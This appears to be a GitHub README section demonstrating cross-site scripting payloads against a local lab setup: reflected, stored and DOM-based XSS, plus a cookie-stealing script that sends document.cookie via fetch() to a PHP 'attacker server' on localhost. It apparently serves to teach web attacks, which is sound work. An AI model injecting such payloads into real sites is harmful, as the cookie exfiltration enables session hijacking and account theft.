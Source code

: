 # Attack

### Reflected XSS

Payload

```bash
<script>alert('Hacked!')</script>
```

### Stored XSS

Payload

```bash
<script>alert('Hacked!')</script>
```

Further Demonstration: Stealing Cookies

> [!WARNING]
> Need to run the attacker server  
> Attacker File `C:\xampp\htdocs\attacker`
> Run the php attack server `C:\xampp\php\php -S 127.0.0.1:8000`
> Access the Server: `http://localhost:8000/steal.php`

```bash
<script> fetch('http://localhost:8000/steal.php?cookie=' + document.cookie); </script>	
```

### DOM-based XSS

Payload: 

```bash
<img src=x onerror="alert('XSS Attack')">
```

> [!NOTE]
> 
> The attack may seem a bit convoluted, and it is, but that's because there are basic protections to prevent the simplest XSS attacks; [script](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML) tags added via innerHTML are not executed automatically.
